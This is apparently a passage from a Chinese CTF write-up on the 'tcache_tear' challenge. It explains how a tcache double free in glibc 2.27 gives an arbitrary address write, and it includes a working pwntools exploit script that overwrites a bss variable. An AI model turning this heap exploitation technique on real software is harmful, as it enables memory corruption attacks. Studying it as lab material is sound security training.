 ### tcache dup构造任意地址写

- [tcache-dup](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/tcache_attack-zh/#tcache-dup)

本题中，我们可以对同一个堆块free两次，在fastbin attack中这事叫double free，不过在fastbin中是有限制的，我们不能直接对一个堆块连续free两次。但是在libc2.27的tcache机制中是可以的，所以我们在构造fastbin的double free的完成任意地址写任意数据的序列，如在[Write Some Paper (大小姐教我入门堆)](https://xuanxuanblingbling.github.io/ctf/pwn/2020/02/02/paper/)中的利用序列：

```python
a = malloc(0x20)
b = malloc(0x20)

free(a);
free(b);
free(a);

malloc(0x20,addr)
malloc(0x20)
malloc(0x20)
malloc(0x20,data)
```

就可以简化为：

```python
a = malloc(0x20);

free(a);
free(a);

malloc(0x20,addr)
malloc(0x20)
malloc(0x20,data)
```

故尝试如下，利用tcache dup取修改我们初始的名字：

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
myelf  = ELF("./tcache_tear")
io =  process(myelf.path)

sla     = lambda delim,data :  io.sendlineafter(delim,data)
init    = lambda name       :  sla("Name:",name)
malloc  = lambda size,data  : (sla("choice :","1"),sla("Size:",str(size)),sla("Data:",data))
free    = lambda            :  sla("choice :","2")
info    = lambda            :  sla("choice :","3")

# use tcache dup to arbitrary address write
def aaw(len,addr,data):
    malloc(len,'a')
    free()
    free()
    malloc(len,p64(addr))
    malloc(len,'a')
    malloc(len,data)

# use aaw to modify name
name_bss = 0x602060
init('xuan')
aaw(0x50,name_bss,'admin')
info()
io.interactive()
```
